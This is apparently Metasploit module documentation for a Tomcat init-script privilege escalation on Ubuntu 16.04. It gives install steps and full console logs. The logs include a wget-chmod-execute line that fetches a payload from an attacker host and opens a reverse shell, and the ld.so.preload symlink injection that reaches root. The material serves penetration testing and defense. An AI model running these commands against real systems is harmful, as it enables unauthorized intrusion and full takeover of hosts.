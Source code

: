 ## Vulnerable Application

Tomcat (6, 7, 8) packages provided by default repositories on Debian-based
distributions (including Debian, Ubuntu etc.) provide a vulnerable
tomcat init script that allows local attackers who have already gained access
to the tomcat account (for example, by exploiting an RCE vulnerability
in a java web application hosted on Tomcat, uploading a webshell etc.) to
escalate their privileges from tomcat user to root and fully compromise the
target system.

Tested against Tomcat 8.0.32-1ubuntu1.1 on Ubuntu 16.04

### Install

This will install Tomcat 8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04 using the build from
[launchpad](https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282)

We also change the `tomcat8` user's shell to `/bin/bash` to make setting up the priv-esc
easier.

```
sudo apt-get install libecj-java build-essential
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/libtomcat8-java_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8-common_8.0.32-1ubuntu1.1_all.deb
sudo dpkg -i *tomcat*.deb
sudo sed -i 's|/bin/false|/bin/bash|g' /etc/passwd
```

You can now `su tomcat8` and get your starter shell.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell as the `tomcat` user (may be version dependent like `tomcat8`)
4. Do: `use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc`
5. Do: `set session #`
6. Do: `run`
7. You should get a root shell.

## Options

### CATALINA

Location of `catalina.out` file. Defaults to `/var/log/tomcat8/catalina.out`.

## Scenarios

### Tomcat8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04

Initial shell

```
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/TymOdj7T0Wc
[*] Server started.
[*] Run the following command on the target machine:
wget -qO NaXlMbmV --no-check-certificate http://1.1.1.1:8080/TymOdj7T0Wc; chmod +x NaXlMbmV; ./NaXlMbmV& disown
[*] 2.2.2.2    web_delivery - Delivering Payload (207 bytes)
[*] Sending stage (1017704 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59862) at 2023-01-16 07:23:48 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: tomcat8
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable app version detected: 8.0.32.pre.1ubuntu1.1
[*] Creating backup of /var/log/tomcat8/catalina.out
[+] Original /var/log/tomcat8/catalina.out backed up to /root/.msf4/loot/20230116072430_default_2.2.2.2_varlogtomcat8_824428.txt
[*] Uploading Payload to /tmp/.SG5N9O
[*] Writing '/tmp/.SG5N9O' (250 bytes) ...
[*] Compiling exploit stub: /tmp/.INpf7Gw.so
[*] Deleting /var/log/tomcat8/catalina.out
[*] Creating symlink from /etc/ld.so.preload to /var/log/tomcat8/catalina.out
[+] Waiting 1800 on tomcat to re-open the logs aka a Tomcat service restart
[-] /etc/ld.so.preload not found, checking in 10 seconds
[-] /etc/ld.so.preload not found, checking in 10 seconds
[*] injecting /tmp/.INpf7Gw.so into /etc/ld.so.preload
[*] Escalating payload privileges via SUID binary (sudo)
[*] Executing payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 2.2.2.2
[+] Deleted /tmp/.SG5N9O
[+] Deleted /tmp/.INpf7Gw.so
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:59866) at 2023-01-16 07:24:55 -0500

meterpreter > getuid
Server username: root
```